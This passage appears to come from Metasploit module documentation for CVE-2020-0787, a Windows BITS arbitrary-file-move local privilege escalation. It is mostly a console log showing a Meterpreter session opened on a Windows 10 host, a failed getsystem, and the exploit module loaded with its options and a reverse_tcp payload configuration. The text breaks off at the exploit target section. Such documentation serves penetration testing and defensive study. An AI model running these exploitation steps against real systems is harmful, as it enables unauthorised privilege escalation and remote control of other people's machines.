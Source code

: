   ```set payload windows/<payload>``` if the target is an x86 machine.
  to add some additional delay if needed to ensure the BITS job has successfully completed
  prior to attempting to conduct the LPE.

## Scenarios

### Windows 10 v1909 x64 - Build 18363.418
```
msf5 exploit(multi/handler) > exploit

[*] Started bind TCP handler against 172.26.22.128:4444
[*] Sending stage (201283 bytes) to 172.26.22.128
[*] Meterpreter session 2 opened (0.0.0.0:0 -> 172.26.22.128:4444) at 2020-06-10 12:00:00 -0500

meterpreter > getuid
Server username: DESKTOP-NRCNIDN\normal
meterpreter > sysinfo
Computer        : DESKTOP-NRCNIDN
OS              : Windows 10 (10.0 Build 18363).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getsystem
[-] priv_elevate_getsystem: Operation failed: The environment is incorrect. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
meterpreter > background
[*] Backgrounding session 2...
msf5 exploit(multi/handler) > use exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move
msf5 exploit(windows/local/cve_2020_0787_bits_arbitrary_file_move) > show options

Module options (exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   JOB_WAIT_TIME  60               yes       Time to wait for the BITS job to complete before starting the USO service to execute the uploaded payload, in seconds
   OVERWRITE_DLL  false            yes       Overwrite WindowsCoreDeviceInfo.dll if it exists (false by default).
   SESSION                         yes       The session to run this module on.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:
